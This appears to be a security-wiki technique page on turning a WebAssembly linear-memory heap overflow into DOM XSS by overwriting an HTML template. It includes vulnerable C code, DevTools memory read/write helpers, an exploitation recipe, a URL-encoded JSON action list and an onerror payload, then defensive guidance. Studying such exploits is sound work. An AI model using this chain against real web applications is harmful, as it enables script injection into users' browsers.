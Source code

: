 # WebAssembly linear memory corruption to DOM XSS (template overwrite)

This technique shows how a memory-corruption bug inside a WebAssembly (WASM) module compiled with Emscripten can be weaponized into a reliable DOM XSS even when input is sanitized. The pivot is to corrupt writable constants in WASM linear memory (e.g., HTML format templates) instead of attacking the sanitized source string.

Key idea: In the WebAssembly model, code lives in non-writable executable pages, but the module’s data (heap/stack/globals/"constants") live in a single flat linear memory (pages of 64KB) that is writable by the module. If buggy C/C++ code writes out-of-bounds, you can overwrite adjacent objects and even constant strings embedded in linear memory. When such a constant is later used to build HTML for insertion via a DOM sink, you can turn sanitized input into executable JavaScript.

Threat model and preconditions
- Web app uses Emscripten glue (Module.cwrap) to call into a WASM module.
- Application state lives in WASM linear memory (e.g., C structs with pointers/lengths to user buffers).
- Input sanitizer encodes metacharacters before storage, but later rendering builds HTML using a format string stored in WASM linear memory.
- There is a linear-memory corruption primitive (e.g., heap overflow, UAF, or unchecked memcpy).

Minimal vulnerable data model (example)
```c
typedef struct msg {
    char *msg_data;       // pointer to message bytes
    size_t msg_data_len;  // length after sanitization
    int msg_time;         // timestamp
    int msg_status;       // flags
} msg;

typedef struct stuff {
    msg *mess;            // dynamic array of msg
    size_t size;          // used
    size_t capacity;      // allocated
} stuff; // global chat state in linear memory
```

Vulnerable logic pattern
- addMsg(): allocates a new buffer sized to the sanitized input and appends a msg to s.mess, doubling capacity with realloc when needed.
- editMsg(): re-sanitizes and memcpy’s the new bytes into the existing buffer without ensuring the new length ≤ old allocation → intra‑linear‑memory heap overflow.
- populateMsgHTML(): formats sanitized text with a baked stub like "%.\*s
" residing in linear memory. The returned HTML lands in a DOM sink (e.g., innerHTML).

Allocator grooming with realloc()
```c
int add_msg_to_stuff(stuff *s, msg new_msg) {
    if (s->size >= s->capacity) {
        s->capacity *= 2;
        s->mess = (msg *)realloc(s->mess, s->capacity * sizeof(msg));
        if (s->mess == NULL) exit(1);
    }
    s->mess[s->size++] = new_msg;
    return s->size - 1;
}
```
- Send enough messages to exceed the initial capacity. After growth, realloc() often places s->mess immediately after the last user buffer in linear memory.
- Overflow the last message via editMsg() to clobber fields inside s->mess (e.g., overwrite msg_data pointers) → arbitrary pointer rewrite within linear memory for data later rendered.

Exploit pivot: overwrite the HTML template (sink) instead of the sanitized source
- Sanitization protects input, not sinks. Find the format stub used by populateMsgHTML(), e.g.:
  - "%.\*s
" → change to "<img src=1      onerror=%.*s>"
- Locate the stub deterministically by scanning linear memory; it is a plain byte string within Module.HEAPU8.
- After you overwrite the stub, sanitized message content becomes the JavaScript handler for onerror, so adding a new message with text like alert(1337) yields <img src=1 onerror=alert(1337)> and executes immediately in the DOM.

Chrome DevTools workflow (Emscripten glue)
- Break on the first Module.cwrap call in the JS glue and step into the wasm call site to capture pointer arguments (numeric offsets into linear memory).
- Use typed views like Module.HEAPU8 to read/write WASM memory from the console.
- Helper snippets:
```javascript
function writeBytes(ptr, byteArray){
  if(!Array.isArray(byteArray)) throw new Error("byteArray must be an array of numbers");
  for(let i=0;i<byteArray.length;i++){
    const byte = byteArray[i];
    if(typeof byte!=="number"||byte<0||byte>255) throw new Error(`Invalid byte at index ${i}: ${byte}`);
    HEAPU8[ptr+i]=byte;
  }
}
function readBytes(ptr,len){ return Array.from(HEAPU8.subarray(ptr,ptr+len)); }
function readBytesAsChars(ptr,len){
  const bytes=HEAPU8.subarray(ptr,ptr+len);
  return Array.from(bytes).map(b=>(b>=32&&b<=126)?String.fromCharCode(b):'.').join('');
}
function searchWasmMemory(str){
  const mem=Module.HEAPU8, pat=new TextEncoder().encode(str);
  for(let i=0;i<mem.length-pat.length;i++){
    let ok=true; for(let j=0;j<pat.length;j++){ if(mem[i+j]!==pat[j]){ ok=false; break; } }
    if(ok) console.log(`Found "${str}" at memory address:`, i);
  }
  console.log(`"${str}" not found in memory`);
  return -1;
}
const a = bytes => bytes.reduce((acc, b, i) => acc + (b << (8*i)), 0); // little-endian bytes -> int
```

End-to-end exploitation recipe
1) Groom: add N small messages to trigger realloc(). Ensure s->mess is adjacent to a user buffer.
2) Overflow: call editMsg() on the last message with a longer payload to overwrite an entry in s->mess, setting msg_data of message 0 to point at (stub_addr + 1). The +1 skips the leading '<' to keep tag alignment intact during the next edit.
3) Template rewrite: edit message 0 so its bytes overwrite the template with: "img src=1      onerror=%.*s ".
4) Trigger XSS: add a new message whose sanitized content is JavaScript, e.g., alert(1337). Rendering emits <img src=1 onerror=alert(1337)> and executes.

Example action list to serialize and place in ?s= (Base64-encode with btoa before use)
```json
[
  {"action":"add","content":"hi","time":1756840476392},
  {"action":"add","content":"hi","time":1756840476392},
  {"action":"add","content":"hi","time":1756840476392},
  {"action":"add","content":"hi","time":1756840476392},
  {"action":"add","content":"hi","time":1756840476392},
  {"action":"add","content":"hi","time":1756840476392},
  {"action":"add","content":"hi","time":1756840476392},
  {"action":"add","content":"hi","time":1756840476392},
  {"action":"add","content":"hi","time":1756840476392},
  {"action":"add","content":"hi","time":1756840476392},
  {"action":"add","content":"hi","time":1756840476392},
  {"action":"edit","msgId":10,"content":"aaaaaaaaaaaaaaaa.\u0000\u0001\u0000\u0050","time":1756885686080},
  {"action":"edit","msgId":0,"content":"img src=1      onerror=%.*s ","time":1756885686080},
  {"action":"add","content":"alert(1337)","time":1756840476392}
]
```

Why this bypass works
- WASM prevents code execution from linear memory, but constant data inside linear memory is writable if program logic is buggy.
- The sanitizer only protects the source string; by corrupting the sink (the HTML template), sanitized input becomes the JS handler value and executes when inserted into the DOM.
- realloc()-driven adjacency plus unchecked memcpy in edit flows enables pointer corruption to redirect writes to attacker-chosen addresses within linear memory.

Generalization and other attack surface
- Any in-memory HTML template, JSON skeleton, or URL pattern embedded in linear memory can be targeted to change how sanitized data is interpreted downstream.
- Other common WASM pitfalls: out-of-bounds writes/reads in linear memory, UAF on heap objects, function-table misuse with unchecked indirect call indices, and JS↔WASM glue mismatches.

Defensive guidance
- In edit paths, verify new length ≤ capacity; resize buffers before copy (realloc to new_len) or use size-bounded APIs (snprintf/strlcpy) and track capacity.
- Keep immutable templates out of writable linear memory or integrity-check them before use.
- Treat JS↔WASM boundaries as untrusted: validate pointer ranges/lengths, fuzz exported interfaces, and cap memory growth.
- Sanitize at the sink: avoid building HTML in WASM; prefer safe DOM APIs over innerHTML-style templating.
- Avoid trusting URL-embedded state for privileged flows.

## References
- [Pwning WebAssembly: Bypassing XSS Filters in the WASM Sandbox](https://zoozoo-sec.github.io/blogs/PwningWasm-BreakingXssFilters/)
- [V8: Wasm Compilation Pipeline](https://v8.dev/docs/wasm-compilation-pipeline)
- [V8: Liftoff (baseline compiler)](https://v8.dev/blog/liftoff)
- [Debugging WebAssembly in Chrome DevTools (YouTube)](https://www.youtube.com/watch?v=BTLLPnW4t5s&t)
- [SSD: Intro to Chrome exploitation (WASM edition)](https://ssd-disclosure.com/an-introduction-to-chrome-exploitation-webassembly-edition/)


